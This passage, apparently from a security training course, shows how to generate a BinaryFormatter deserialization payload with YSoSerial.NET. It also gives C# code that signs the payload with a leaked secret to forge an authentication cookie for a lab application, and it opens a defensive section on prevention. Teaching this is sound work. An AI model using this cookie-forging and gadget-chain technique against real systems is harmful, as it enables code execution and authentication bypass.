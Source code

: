 ![image](e29ZUao9dKU2.png)

## Example 3: Binary, Authentication Cookie

For the last example, let's take a look at using `YSoSerial.NET` to exploit the authentication cookie, which used `BinaryFormatter` for (de-)serialization.

Generating a payload for `BinaryFormatter` is as simple as running the following command:

```powershell
PS C:\htb> .\ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c 'notepad' -o base64

```

However, as you should expect, this payload will not work due to the cookie validation that goes on before deserialization. Once again this payload will need to be modified to work with `TeeTrove`, but this is not very difficult when we have the decompiled source code to aid us in development:

```csharp
private static readonly string AUTH_COOKIE_SECRET = "916344<SNIP>";

private static string createSHA256HashB64(string session_b64)
{
    <SNIP>
}

static void Main(string[] args)
{
    string ysoserial_payload_b64 = "AAEAAAD/////AQAAAAAAA<SNIP>";
    string authCookieVal = ysoserial_payload_b64 + "." + createSHA256HashB64(ysoserial_payload_b64);
    Console.WriteLine(authCookieVal);
}

```

With this short program to turn the `YSoSerial.NET` payload into a usable payload for `TeeTrove`, exploitation works as expected, but once again this is an example of why it is important to understand how to do things manually in case the automated tools can not do exactly what we want.

![image](Twr4QUe7YO7Z.png)


# Preventing Deserialization Vulnerabilities

## Introduction

With `vulnerability assessment` and `exploit development` covered, let's look at `deserialization` from a `defender/developers` point of view, and discuss what can be done to `prevent deserialization vulnerabilities` from occurring.

## Guidelines
